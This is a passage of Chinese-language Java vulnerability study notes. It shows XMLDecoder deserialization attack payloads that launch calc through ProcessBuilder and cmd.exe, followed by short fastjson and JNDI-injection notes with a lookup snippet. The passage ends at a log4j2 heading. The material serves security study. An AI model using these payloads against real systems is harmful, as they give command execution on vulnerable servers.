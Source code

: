 攻击payload
```java
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_131" class="java.beans.XMLDecoder">
	<object class="java.lang.ProcessBuilder">
		<array class="java.lang.String" length="1">
			<void index="0">
				<string>calc</string>
			</void>
		</array>
		<void method="start" />
	</object>
</java>

或者

<void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
        <void index="0">
            <string>cmd.exe</string>
        </void>
        <void index="1">
            <string>/c</string>
        </void>
        <void index="2">
            <string>calc</string>
        </void>
    </array>
    <void method="start"/>
</void>
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1644470617593-d379fd7c-2b71-4ad7-8566-65209a29b745.png#clientId=u77d7230b-243d-4&from=paste&height=412&id=uee5b10f7&originHeight=824&originWidth=1857&originalType=binary&ratio=1&rotation=0&showTitle=false&size=363956&status=done&style=none&taskId=u35fbf277-4f7c-4fec-89fb-f9f192a27d9&title=&width=928.5)
<a name="yq7Oi"></a>
### fastjson
params可控，jar包依赖符合漏洞范围，直接fastjson反序列化漏洞<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1645672896602-8269ca52-4261-490d-913b-0b95aaab5831.png#clientId=u7486b0bd-22e0-4&from=paste&height=205&id=u5ae659af&originHeight=410&originWidth=1367&originalType=binary&ratio=1&rotation=0&showTitle=false&size=55573&status=done&style=none&taskId=ub66c143b-a408-48b2-b309-d2f620f90dd&title=&width=683.5)
<a name="wepRA"></a>
### jndi注入

InitialContext()、lookup()、<br />如果uri可控，就可以进行jndi注入<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1643533073140-f6540d42-2a7f-411d-8de2-1bc8e24289b7.png#clientId=uee333f2b-90e6-4&from=paste&height=268&id=u3f60a253&originHeight=332&originWidth=659&originalType=binary&ratio=1&rotation=0&showTitle=false&size=18920&status=done&style=none&taskId=u86f1a4b2-d46f-4581-bbeb-a7b40a6a99b&title=&width=531.5)
```java
Context ctx = new InitialContext();

// 获取RMI绑定的恶意ReferenceWrapper对象
Object obj = ctx.lookup("注入JNDI服务URL");
```
<a name="VR7PZ"></a>
### log4j2
